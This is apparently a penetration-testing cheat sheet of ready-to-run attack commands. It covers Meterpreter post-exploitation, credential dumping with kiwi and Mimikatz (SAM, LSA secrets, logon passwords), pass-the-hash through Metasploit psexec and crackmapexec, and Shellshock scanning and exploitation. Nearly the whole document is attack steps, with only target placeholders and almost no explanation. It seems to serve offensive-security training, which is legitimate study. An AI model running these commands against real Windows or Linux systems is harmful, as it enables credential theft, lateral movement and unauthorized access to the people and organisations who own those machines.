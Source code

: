 ```
sysinfo
getuid
pgrep lsass
migrate <explorer_PID>
getprivs

# Creds dumping - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# MIMIKATZ
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords

# PASS THE HASH
## sekurlsa::logonPasswords
background
search psexec
use exploit/windows/smb/psexec
set LPORT <LOCAL_PORT2>
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
exploit
```

```
crackmapexec smb <TARGET_IP> -u Administrator -H "<NTLM_HASH>" -x "whoami"
```

**Linux Exploitation**



**Shellshock**

```
# BASH - APACHE
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <TARGET_IP>
```

```
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <TARGET_IP>
set TARGETURI /gettime.cgi
exploit
```
